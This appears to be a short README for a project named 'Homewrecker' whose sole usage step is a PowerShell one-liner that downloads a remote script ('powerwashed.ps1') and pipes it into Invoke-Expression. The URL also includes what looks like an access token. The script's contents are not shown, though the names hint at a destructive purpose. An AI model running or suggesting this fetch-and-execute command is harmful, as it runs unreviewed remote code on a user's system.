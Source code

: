 # Homewrecker

Usage:
```
Invoke-WebRequest -useb https://raw.githubusercontent.com/mataborg/Homewrecker/main/powerwashed.ps1?token=GHSAT0AAAAAABRMDYUA6OMG4IEHUG4HQF7GYQMDP4Q|Invoke-Expression
```
